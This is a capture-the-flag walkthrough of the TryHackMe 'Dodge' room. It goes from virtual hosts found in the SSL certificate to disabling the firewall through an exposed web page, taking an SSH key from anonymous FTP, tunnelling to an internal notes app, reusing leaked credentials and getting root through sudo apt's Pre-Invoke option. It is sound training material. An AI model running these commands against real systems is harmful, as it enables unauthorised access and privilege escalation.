



Dodge
// Overview
Dodge is a TryHackMe room that tests your ability to move through various services and avoid network controls. The name suggests our goal: we must bypass the firewall, avoid the easy attack paths, and steer clear of distractions.
The room is rated Medium and includes:
- Finding virtual hosts from an SSL certificate
- Turning off UFW to reveal an FTP service
- Retrieving SSH keys from an anonymous FTP server
- Port forwarding to access an internal notes application
- Chaining credentials to escalate to another user
- Using
aptto gain a root shell
All flags and credentials have been redacted per TryHackMe's write-up policy.
// Phase 1: Reconnaissance
We start with a standard Nmap scan. The -sC flag runs default scripts, -sV performs version detection, and -p- scans all 65,535 ports.
nmap -sC -sV -p- <target_ip>
Three ports are open:
PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 80/tcp open http Apache httpd 2.4.41 443/tcp open ssl/http Apache httpd 2.4.41 SSL Certificate Subject Alternative Names: DNS:dodge.thm DNS:www.dodge.thm DNS:blog.dodge.thm DNS:dev.dodge.thm DNS:touch-me-not.dodge.thm DNS:netops-dev.dodge.thm DNS:ball.dodge.thm
Visiting the IP directly returns a 403 Forbidden. This is common when a server uses virtual hosts; it cannot determine which site to serve based on the IP alone.
Host header in the HTTP request. If you access the site by IP, the server returns a default page, often a 403 error.
The SSL certificate gives us a list of virtual hosts. We add them to /etc/hosts:
<target_ip> dodge.thm www.dodge.thm blog.dodge.thm dev.dodge.thm touch-me-not.dodge.thm netops-dev.dodge.thm ball.dodge.thm
// Phase 2: Virtual Host Enumeration
We test each subdomain over HTTPS:
for sub in www blog dev touch-me-not netops-dev ball dodge; do
echo -n "https://$sub.dodge.thm: "
curl -k -s -o /dev/null -w "%{http_code}\n" https://$sub.dodge.thm
done
Three subdomains return 200 OK:
https://www.dodge.thm: 200 https://blog.dodge.thm: 403 https://dev.dodge.thm: 200 https://touch-me-not.dodge.thm: 403 https://netops-dev.dodge.thm: 200 https://ball.dodge.thm: 403 https://dodge.dodge.thm: 000
-
www.dodge.thm, a static corporate site. -
dev.dodge.thm, an exposedphpinfo()page. -
netops-dev.dodge.thm, a firewall management page. This is where the action is.
403 Forbidden. They're likely honeypots or inactive vhosts; we will ignore them.
// Phase 3: Discovering the Firewall Endpoint
Visiting netops-dev.dodge.thm shows a blank page. However, the page source reveals two JavaScript files:
<script src='cf.js'></script> <script src="firewall.js"></script>
When checking firewall.js, it makes a request to firewall10110.php:
fetch('firewall10110.php', {
method: 'GET',
headers: {
'Content-Type': 'application/json'
}
})
Going to /firewall10110.php shows a firewall management interface that accepts UFW commands:

The rule table indicates that port 21 (FTP) is denied. Instead of struggling with the interface, we simply run sudo ufw disable to turn the firewall off entirely:

With the firewall disabled, we rescan the target:
PORT STATE SERVICE VERSION 21/tcp open ftp vsftpd 2.0.8 or later 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 80/tcp open http Apache httpd 2.4.41 443/tcp open ssl/http Apache httpd 2.4.41
Port 21 (FTP) is now open. It's time to investigate.
// Phase 4: FTP & SSH Keys
We connect to the FTP service using anonymous login:
ftp <target_ip> Name: anonymous Password: (blank)
A successful login shows that anonymous access is enabled. We list the directory:
ftp> ls -la 229 Entering Extended Passive Mode (|||22979|) 150 Here comes the directory listing. drwxr-xr-x 5 1003 1003 4096 Jun 29 2023 . drwxr-xr-x 5 1003 1003 4096 Jun 29 2023 .. -rwxr-xr-x 1 1003 1003 87 Jun 29 2023 .bash_history -rwxr-xr-x 1 1003 1003 220 Feb 25 2020 .bash_logout -rwxr-xr-x 1 1003 1003 3771 Feb 25 2020 .bashrc drwxr-xr-x 2 1003 1003 4096 Jun 19 2023 .cache drwxr-xr-x 3 1003 1003 4096 Jun 19 2023 .local -rwxr-xr-x 1 1003 1003 807 Feb 25 2020 .profile drwxr-xr-x 2 1003 1003 4096 Jun 22 2023 .ssh -r-------- 1 1003 1003 38 Jun 19 2023 user.txt 226 Directory send OK.
This is a user's home directory. The .ssh folder holds SSH keys. We navigate into it:
ftp> cd .ssh 250 Directory successfully changed. ftp> ls 229 Entering Extended Passive Mode (|||62353|) 150 Here comes the directory listing. -rwxr-xr-x 1 1003 1003 573 Jun 22 2023 authorized_keys -r-------- 1 1003 1003 2610 Jun 22 2023 id_rsa -rwxr-xr-x 1 1003 1003 2610 Jun 22 2023 id_rsa_backup 226 Directory send OK.
id_rsa? It's only readable by the owner (permission -r--------). The backup key has permissions -rwxr-xr-x, which allows anyone to read it.
We download id_rsa_backup and authorized_keys:
ftp> get id_rsa_backup ftp> get authorized_keys
The authorized_keys file contains the username:
ssh-rsa AAAAB3... challenger@thm-lamp
We now have an SSH key and a username. We set the correct permissions and connect:
chmod 600 id_rsa_backup ssh -i id_rsa_backup challenger@<target_ip>
To read the user flag:
challenger@ip-10-112-150-79:~$ cat user.txt
// Phase 5: The Notes Application
Now that we're inside as challenger, we need to escalate privileges. We start by checking the listening ports:
ss -tln | grep LISTEN
Port 10000 is listening only on localhost:
tcp LISTEN 0 511 127.0.0.1:10000 0.0.0.0:*
This is likely a web application. We find the Apache config for it:
cat /etc/apache2/sites-enabled/notes.conf
<VirtualHost 127.0.0.1:10000>
DocumentRoot /var/www/notes
</VirtualHost>
We need to access this internal service. We use SSH port forwarding:
ssh -i id_rsa_backup -L 10000:127.0.0.1:10000 challenger@<target_ip>
Now we can access http://localhost:10000 from our attacker machine. When we browse to it, we see a notes application:

Viewing the page source of /public/html/login.php reveals an interesting clue, hardcoded credentials in HTML comments:
<!-- <input type="text" id="username" name="username" value="gabriela"> --> <!-- <input type="password" id="password" name="password" value="<redacted>"> -->
These work! We log in as gabriela and see a dashboard. It displays credentials for another user:

cobra.cobra / <redacted>
// Phase 6: Privilege Escalation
The credentials work for su:
su - cobra Password:
As cobra, we check sudo permissions:
cobra@ip-10-112-187-129:~$ sudo -l
Matching Defaults entries for cobra on ip-10-112-187-129:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User cobra may run the following commands on ip-10-112-187-129:
(ALL) NOPASSWD: /usr/bin/apt
This is a well-known privilege escalation method. The
Pre-Invoke option allows us to run arbitrary commands before an apt operation:
sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
This drops us into a root shell. From there, we read the root flag:
# cat /root/root.txt
// Key Takeaways
socat is necessary.
apt is a powerful escalation method. The Pre-Invoke option allows arbitrary command execution. This is a well-known technique worth memorizing for any Linux privilege escalation checklist.